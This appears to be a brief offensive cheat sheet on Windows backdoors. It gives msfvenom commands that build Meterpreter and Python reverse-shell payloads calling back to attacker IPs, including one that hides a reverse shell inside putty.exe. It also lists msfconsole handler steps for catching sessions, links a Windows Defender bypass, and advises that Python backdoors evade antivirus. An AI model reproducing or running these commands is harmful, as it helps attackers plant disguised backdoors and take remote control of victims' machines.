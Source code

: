 ### Windows Backdoors:

#### Payloads: (No chance beacause of windows defender)

$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.110 LPORT=4242 -f exe > reverse.exe<br>
$ msfvenom -p cmd/unix/reverse_python LHOST="10.10.10.110" LPORT=4242 -f raw > shell.py

#### Payloads hidden in exe:<br>

$ msfvenom -p windows/x64/meterpreter/reverse_tcp --platform windows -a x64 LHOST=213.32.70.39 LPORT=7777 -x ../putty.exe -f exe-only -o ~/Samples/Bad/putty64-777.exe<br>

Working exploit that avoids windows defender:<br>
https://ired.team/offensive-security/defense-evasion/bypassing-windows-defender-one-tcp-socket-away-from-meterpreter-and-cobalt-strike-beacon

#### Host:

- MSFCONSOLE<br>
    - use /exploit/multi/handler<br>
	- set payload windows/meterpreter/reverse_tcp<br>
	- set LHOST [IP]<br>
	- set LPORT [Port]<br>
	- set ExitOnSession false<br>
	- exploit -j -z<br>
	- sessions -l<br>
	- sessions -i 2<br>
<br>
Python backdoors are safer, as they are not checked by windows defender. There is always a risk with the firewall though.

